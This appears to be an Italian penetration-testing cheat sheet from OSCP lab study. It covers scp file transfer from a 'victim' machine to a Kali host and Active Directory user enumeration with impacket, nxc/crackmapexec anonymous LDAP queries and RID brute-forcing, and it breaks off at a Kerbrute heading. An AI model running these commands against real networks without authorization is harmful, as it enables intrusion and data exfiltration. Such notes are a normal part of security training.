 Su kali:

```bash
sudo systemctl ssh start
```

Su windows o linux vittima:

```bash
# da vittima a kali
scp path/to/file kali@$KALI_IP:path/to/file

# da kali a vittima
scp kali@$KALI_IP:path/to/file path/to/file

# Esempio
scp sitebackup3.zip kali@192.168.45.214:/home/kali/OSCP/challenge_labs/retake/retake_a_oscp/144/sitebackup3.zip
```

# Active Directory 

- [Mappa AD](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2023_02.svg)
- [ntlm_theft](https://github.com/Greenwolf/ntlm_theft)
## Get users

IMPORTANTE: alcune volte potrebbe essere utile sincronizzare il tempo con il DC!

```bash
sudo ntpdate $DC_IP
```

Se non dovesse funzionare vedere [qui](https://medium.com/@danieldantebarnes/fixing-the-kerberos-sessionerror-krb-ap-err-skew-clock-skew-too-great-issue-while-kerberoasting-b60b0fe20069).

- **GetADUsers**

```bash
impacket-GetADUsers -dc-ip $IP "domain.com/" -all 
```

- **nxc** 

```bash
nxc ldap <ip> -u '' -p '' --query "(objectClass=*)" "*"
nxc ldap <ip> -u '' -p '' --query "(objectClass=*)" "*" > ldap_output.txt
cat ldap_output.txt | grep userPrincipalName | awk '{print $6}'

# rid-brute attack
sudo crackmapexec smb $IP -u guest -p "" --rid-brute
sudo crackmapexec  smb 10.10.11.35 -u anonymous -p '' --rid-brute 

nxc smb <ip> --users
```

- **Kerbrute**
 